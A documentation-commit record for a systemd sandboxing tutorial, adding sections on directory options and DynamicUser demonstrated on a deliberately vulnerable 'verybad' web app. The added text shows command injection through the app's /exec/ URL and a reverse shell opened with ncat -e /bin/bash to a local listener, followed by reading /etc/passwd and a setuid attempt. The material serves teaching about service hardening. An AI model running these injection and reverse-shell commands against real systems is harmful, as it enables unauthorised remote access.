

Before and after one commit to kushaldas/lym, a Sphinx documentation site: the page built from docs/services.rst, in a window 1280 px wide and 1400 px high, scrolled down 13243 px. Shown: the whole window, without its empty margins (387-1141 px from the left). Built offline with Sphinx 7.4.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; before the commit the page ends 13564 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Adds DynamicUser and other features

```diff
--- a/docs/services.rst
+++ b/docs/services.rst
@@ -731,3 +731,152 @@ You will notice that the tool can not see any file in those directories.
   $ curl  http://localhost:8000/exec/ls%20%2Froot
   $ curl  http://localhost:8000/exec/ls%20%2Fhome%2Ffedora
   $ curl  http://localhost:8000/exec/ls%20%2Ftmp
+
+
+Fixing directory paths
+-----------------------
+
+systemd also provides various sandboxing options for runtime/configuration/state/logging directories for any service, and those are available to the service as
+environment variables too.
+You can specify them via the following options:
+
+.. list-table:: Directory configuration
+  :header-rows: 1
+
+  * - Directory
+    - Path for system units
+    - Environment variable
+
+  * - RuntimeDirectory=
+    - /run/
+    - $RUNTIME_DIRECTORY
+  * - StateDirectory=
+    - /var/lib/
+    - $STATE_DIRECTORY
+  * - CacheDirectory=
+    - /var/cacche/
+    - $CACHE_DIRECTORY
+
+  * - LogsDirectory=
+    - /var/logs/
+    - $LOGS_DIRECTORY
+  * - ConfigurationDirectory=
+    - /etc/
+    - $CONFIGURATION_DIRECTORY
+
+
+DynamicUser
+-----------
+
+This is a very powerful option, takes a boolean value. If set to `yes` a user &
+group will be dynamically added. This value will not be showed up in the
+`/etc/passwd` or in `/etc/group` files. It also means `ProtectSystem=strict` &
+`ProtectHome=read-only`. `PrivateTmp` is also implied. Two new options will also
+be implied,  `NoNewPrivileges=` and `RestrictSUIDSGID=`. These options make sure
+the actual service process can not create SUID/SGID files or use them.
+
+Let us enable DynamicUser and have a state directory and move us to that StateDirectory as WorkingDirectory.
+
+
+.. code-block:: ini
+
+  [Unit]
+  Description=Very Bad Web Application
+  After=network.target
+
+  [Service]
+  Type=simple
+  ExecStart=/usr/sbin/verybad
+  Restart=always
+  DynamicUser=yes
+  StateDirectory=verybad
+  WorkingDirectory=/var/lib/verybad
+
+  [Install]
+  WantedBy=multi-user.target
+
+
+The StateDirectory is now `/var/lib/verybad`, but because we are having a
+DynamicUser, it is actually under `/var/lib/private` and symlinked to
+`/var/lib/verybad`. We can see if we check the index page once again.
+
+
+::
+
+  $ curl http://localhost:8000/
+  Example of poorly written code.
+      GET /getos -> will give the details of the OS.
+      GET /filename -> will provide a file from the current directory
+      GET /exec/date -> will give you the current date & time in the server.
+      POST /filename -> Saves the data in filename.
+      Code is running in: /var/lib/private/verybad
+
+
+We can also check details about the `user` the service is running as and try to write to some files or execute commands or read some files.
+
+::
+
+  $ curl http://localhost:8000/exec/id
+  uid=65445(verybad) gid=65445(verybad) groups=65445(verybad) context=system_u:system_r:unconfined_service_t:s0
+  $ curl -d '42 is the answer.'  http://localhost:8000/%2Fvar%2Flib%2Fverybad%2Fexample
+  Okay
+  $ curl http://localhost:8000/%2Fvar%2Flib%2Fverybad%2Fexample
+  42 is the answer.
+
+We can still create a reverse shell in this setup. In one terminal use `nc` to listen for connection on port 5555 and use `ncat` command to connect to it.
+
+::
+
+  $ nc -nlv 5555
+  Listening on 0.0.0.0 5555
+
+Now, use `curl` to fire up `ncat` & connect to this. We have the command `ncat 127.0.0.1 5555 -e /bin/bash` URL encoded.
+
+::
+
+  $ curl http://localhost:8000/exec/ncat%20127.0.0.1%205555%20-e%20%2Fbin%2Fbash
+
+
+Now, if you go back you can see a connection has been established.
+
+::
+
+  Connection received on 127.0.0.1 54056
+  id
+  uid=65445(verybad) gid=65445(verybad) groups=65445(verybad) context=system_u:system_r:unconfined_service_t:s0
+  pwd
+  /var/lib/private/verybad
+  ls /tmp
+  cp /usr/bin/ls /tmp/
+  ls -l /tmp/ls
+  -rwxr-xr-x. 1 verybad verybad 141816 Mar 30 09:41 /tmp/ls
+  chmod u+s /tmp/ls
+  ls -l /tmp/ls
+  -rwxr-xr-x. 1 verybad verybad 141816 Mar 30 09:41 /tmp/ls
+  cat /etc/passwd
+  root:x:0:0:root:/root:/bin/bash
+  bin:x:1:1:bin:/bin:/sbin/nologin
+  daemon:x:2:2:daemon:/sbin:/sbin/nologin
+  adm:x:3:4:adm:/var/adm:/sbin/nologin
+  lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
+  sync:x:5:0:sync:/sbin:/bin/sync
+  shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
+  halt:x:7:0:halt:/sbin:/sbin/halt
+  mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
+  operator:x:11:0:operator:/root:/sbin/nologin
+  games:x:12:100:games:/usr/games:/sbin/nologin
+  ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
+  nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
+  dbus:x:81:81:System message bus:/:/sbin/nologin
+  systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
+  systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
+  systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
+  systemd-timesync:x:998:998:systemd Time Synchronization:/:/usr/sbin/nologin
+  systemd-coredump:x:997:997:systemd Core Dumper:/:/usr/sbin/nologin
+  tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
+  unbound:x:996:995:Unbound DNS resolver:/etc/unbound:/sbin/nologin
+  sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
+  chrony:x:995:994::/var/lib/chrony:/sbin/nologin
+  fedora:x:1000:1000:fedora Cloud User:/home/fedora:/bin/bash
+
+See if you can esclate to `root` from this shell :)
```
